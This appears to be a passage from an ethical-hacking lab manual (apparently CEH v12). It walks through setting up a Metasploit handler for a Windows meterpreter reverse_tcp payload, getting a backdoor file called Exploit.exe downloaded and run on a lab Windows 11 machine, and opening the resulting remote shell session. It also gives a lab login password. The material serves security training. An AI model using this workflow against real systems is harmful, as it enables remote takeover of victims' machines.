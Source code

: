 
### 


12. Now, type **msfconsole** in the terminal and press **Enter** to launch the Metasploit framework.
13. Type **use exploit/multi/handler** and press **Enter** to handle exploits launched outside the framework.
14. Now, issue the following commands in msfconsole:

```
Type set payload windows/meterpreter/reverse_tcp and press Enter to set a payload.
```
```
Type set LHOST 10.10.1.13 and press Enter to set the localhost.
```
### 


15. To start the handler, type the command **exploit -j -z** and press **Enter**.
16. Now, click **CEHv12 Windows 11** to switch to the **Windows 11** machine. Click **Ctrl+Alt+Del** , by default, **Admin** user profile is
    selected, type **Pa$$w0rd** in the Password field and press **Enter** to login.

### 


17. Open any web browser (here, **Mozilla Firefox** ). In the address bar place your mouse cursor, type **[http://10.10.1.13/share](http://10.10.1.13/share)** and press
    **Enter**. As soon as you press enter, it will display the shared folder contents, as shown in the screenshot.
18. Click the **Exploit.exe** file to download the backdoor file.

```
Note: 10.10.1.13 is the IP address of the host machine (here, the Parrot Security machine).
```
### 


19. Once you click on the **Exploit.exe** file, the **Opening Exploit.exe** pop-up appears; select **Save File**.
20. The malicious file will be downloaded to the browser’s default download location (here, **Downloads** ). Now, navigate to the
    download location and double-click the **Exploit.exe** file to run the program.

### 


21. An **Open File – Security Warning** window appears; click **Run**.
22. Leave the **Windows 11** machine running, so the **Exploit.exe** file runs in the background and click **CEHv12 Parrot Security** to switch
    to the **Parrot Security** machine.
23. In the **Terminal** window, you can see that the **Meterpreter** session has successfully been opened.
24. Type **sessions -i 1** and press **Enter** (here, **1** is the id number of the session). **Meterpreter** shell is launched, as shown in the
    screenshot.
